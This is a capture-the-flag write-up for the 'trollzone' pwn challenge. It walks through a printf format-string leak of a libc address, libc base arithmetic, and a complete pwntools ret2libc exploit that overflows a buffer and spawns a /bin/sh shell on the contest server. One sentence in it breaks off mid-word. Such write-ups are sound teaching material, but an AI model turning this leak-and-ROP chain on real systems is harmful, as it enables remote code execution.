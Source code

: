 ![Screenshot 2025-02-24 160120](https://github.com/user-attachments/assets/bc7feb06-104b-4699-8826-2d5877a9ab33) \
Solved by : Relster
# Technique = Format string leak & Ret2libc

## 1. Checking given file.
Given a zip file that contains 3 files which are _vuln_, _libc.so.6_, and _ld-linux-x86-64.so.2_ \

Checking binary protection.
```bash
[*] '/home/relster/Desktop/ctf/kashi/pwn/trollzone/chall/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
This challenge is pretty trivial like most ret2libc challenges out there. The only difference is that, leaked address would n


## 2. Patching & Analyzing binary.
Patch:\
```bash
~/Desktop/ctf/pwninit    # You can change this according to where you put your pwninit
```
This should give us the __vuln_patched__ binary.\
\
Running binary:\
![pic_1](https://github.com/user-attachments/assets/5568ec12-50b6-48ae-a01d-bd34a19fc60d) \
If we continue leaking using '_%p_' format specifier, we'll find an address which still located within the _libc_ memory area and the offset is at the 17th offset (_%17$p_). Note that the address is still in _libc_ memory area but we that leaked address is not a _libc_ _function_ so we'll have to debug it in **GDB** to see nearest address that's a _libc function_. You'll see what i mean in the next image.

Debugging in **GDB**:\
Let's put a __breakpoint__ here and _run_ it.
![Screenshot 2025-02-27 124235](https://github.com/user-attachments/assets/9ddce0c6-ff56-4148-8cf9-88df4a74dc39)

Type _ni_ and we will be asked for the input, and we'll type _%17$p_ to leak the address as i mention above.
![image](https://github.com/user-attachments/assets/aa93c0b0-2864-439e-9bdf-cdf530c1a180)

We'll copy that _leaked address_ (_0x7ffff7e0924a_ in this case) and examine nearby address that is hopefully some _libc function_ so that we can subtract the offset of that function to get the base address of _libc_.


We can see that the leaked address is close to ___libc_start_main_, from here we just need to do some basic pointer arithmetic to get the address of ___libc_start_main_.\
![image](https://github.com/user-attachments/assets/1a33da72-a825-40f0-bfaa-d4a217858492)

It's _0x36_ bytes or 54 bytes in difference between _0x7ffff7e0924a_ and ___libc_start_main_.
![image](https://github.com/user-attachments/assets/21976e45-ad26-46c5-84bb-1c5e75a48f80)


From here it's just trivial like traditional _**ret2libc**_ challenges, we'll just subtract the address of ___libc_start_main_ with its offset and voila we get the base address of _libc_.


## 3. Final Exploit
```python
#!/usr/bin/env python

from pwn import *

context.arch = 'amd64'

TARGET = './vuln_patched'
HOST = 'kashictf.iitbhucybersec.in'
PORT = 55698

elf = ELF(TARGET)
libc = ELF('./libc.so.6')
ld = ELF("./ld-linux-x86-64.so.2")

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

#context.log_level = 'DEBUG'

gdb_script = f"""
    break *main
"""
#gdb.attach(p, gdbscript=gdb_script)

# ===================================== #


# STAGE 1 : Leak address from stack using 'printf format string'

fmtstr = b'%17$p'   # leaked libc address is at 17th offset

rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]
libc_start_offset = libc.symbols['__libc_start_main']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b"/bin/sh\x00"))

print("Offsets:")
print(f"__libc_start_main : {hex(libc_start_offset)}")
print(f"system            : {hex(system_offset)}")
print(f"/bin/sh           : {hex(binsh_offset)}")
print("==================================")

payload = flat(
    fmtstr,
)
p.sendline(payload)


# STAGE 2 : Clean up the leaked address

p.recvuntil(b'not giving you ')

# Leaking address and find libc base address
leak = p.recvuntil(b'\n').strip().decode()
libc_start_main = int(leak, 16) + 0x36  # this is adjacent (not very adjacent, but close) to the function '__libc_start_main', their difference is 0x36 bytes
libc_base = libc_start_main - libc_start_offset
system = libc_base + system_offset
binsh = libc_base + binsh_offset

print(f"leaked address    : {leak}")
print(f"__libc_start_main : {hex(libc_start_main)}")
print(f"libc_base         : {hex(libc_base)}")
print(f"system            : {hex(system)}")
print(f"binsh             : {hex(binsh)}")


# STAGE 3 : Craft payload from leaked addresses and send it to remote server

# Find pop rdi; ret; in libc
rop_libc = ROP(libc)
pop_rdi = rop_libc.find_gadget(['pop rdi', 'ret'])[0]
pop_rdi_addr = libc_base + pop_rdi

# Overflow, set up rdi register with '/bin/sh' string, call system()
pop_shell = flat(
    'A' * 40,
    ret,
    pop_rdi_addr,
    binsh,
    system
)
p.sendline(pop_shell)

p.interactive()
p.close()

# NOTE:
# Format string leak & Ret2libc
```

## 4. Result
Local:\
![image](https://github.com/user-attachments/assets/ee77ef4a-bdd4-452e-b978-b7a79e387b60)

Remote:\
![image](https://github.com/user-attachments/assets/ef5bcc65-ac08-4174-ac85-c76d4bc2bcb7)
Note : I was writing this writeup when the challenge is done, so no flags but the exploitation remains the same.

## Keyword
ret2libc \
_printf_ format string leak
